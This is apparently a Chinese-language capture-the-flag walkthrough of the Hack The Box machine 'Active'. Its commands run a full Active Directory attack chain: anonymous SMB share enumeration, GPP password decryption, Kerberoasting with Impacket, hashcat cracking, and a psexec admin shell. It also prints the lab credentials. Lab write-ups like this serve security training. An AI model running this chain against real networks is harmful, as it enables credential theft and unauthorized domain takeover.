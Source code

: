 ```yaml
---
description: Easy / SMB共享 / 枚举
---
```


# ✔️ Active

## 建立立足点

### 信息收集&枚举

* 使用Nmap对目标系统进行开放端口扫描：

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

* 顺便把IP地址和域名写进/etc/hosts中，以便后续使用：

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

* 使用Nmap查找一下相关的SMB漏洞：

```bash
# 过滤出本机上关于smb漏洞扫描的脚本：
local -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

<figure><img src="../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

```bash
nmap --script safe -p 445 10.129.85.245
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

没有什么收获：

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

查找到当前目标系统中SMB服务是2.0版本，使用smb-enum-services脚本也无收获，该脚本貌似是作用于SMB 1.0版本的：

<figure><img src="../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录SMB服务，并枚举其所有共享目录：

```bash
smbclient -L 10.129.85.245
```

<figure><img src="../../.gitbook/assets/9 (6).png" alt=""><figcaption></figcaption></figure>

分别用enum4linux和smbmap这两种工具对这些共享目录进行枚举以及确认当前权限：

```bash
# enum4linux：
enum4linux 10.129.85.245
# smbmap:
smbmap -H 10.129.85.245
```

<figure><img src="../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
smbmap比enum4linux好用
{% endhint %}

* 以上两个工具的输出结果显示，当前这个匿名登录账户对\`/Replication\`目录是可读的，因此可以把该目录下的所有文件内容递归下载到我的Kali本机中，再逐个查看其内容是否有可以利用的信息：

```bash
smbclient //10.129.85.245/Replication
# 连接上之后，依次执行：
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

* 在查看各个文件夹内容后，发现路径/{31B2F346-616D-11D2-945F-06C64FB984F9}/MACHTNE/Preferences/Groups目录下有个\`Groups.xml\`文件，这个文件中会用用户名和加密后的密码信息：

<figure><img src="../../.gitbook/assets/14 (4).png" alt=""><figcaption></figcaption></figure>

* 用gpp-decrypt解码后获得明文密码：

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

* 此时已获得有效凭证<mark style="color:red;">**svg\_tgs:GPPstillStandingStrong2k18**</mark>

### GET SHELL

* 利用已获得的有效凭证再次枚举目标系统的SMB服务，看看是否获得了更多的信息和权限：

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.113
```

<figure><img src="../../.gitbook/assets/16 (4).png" alt=""><figcaption></figcaption></figure>

* 果然发现多了几个共享目录可读。但与此同时，也用Impacket的GetADUsers.py脚本枚举除了目标系统上所有的用户：

```bash
python3 GetADUsers.py -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.138.113
```

<figure><img src="../../.gitbook/assets/17 (4).png" alt=""><figcaption></figcaption></figure>

* 貌似/Users目录有东西，用凭证登录后逐一查看发现flag：

```bash
smbclient //10.129.138.113/Users -U SVC_TGS%GPPstillStandingStrong2k18
ls
```

<figure><img src="../../.gitbook/assets/18 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息收集&枚举

* 使用ldapsearch查询活动账户在域控中的属性，过滤出特定目标账户：

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname |grep sAMAccountName
```

<figure><img src="../../.gitbook/assets/22 (2).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName
```

<figure><img src="../../.gitbook/assets/23 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 使用GetUserSPNs.py脚本，提取Administrator的hash:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.138.113 -request
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将输出的哈希值存为hash.txt文件，然后用hashcat对它进行爆破以获取Administrator的明文密码：

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/26 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得了管理员的明文密码<mark style="color:red;">**Ticketmaster1968，**</mark>配合psexec.py脚本获得管理员shell，成功root：

```bash
python3 psexec.py active.htb/Administrator@10.129.138.113 
```

<figure><img src="../../.gitbook/assets/29 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得flag：

<figure><img src="../../.gitbook/assets/30 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
本例的考察重点是对目标SMB共享资源的枚举，属于简单级别的机器。

(本例机器重置过，所以IP地址中途有所改变，但不影响利用过程和结果)
{% endhint %}
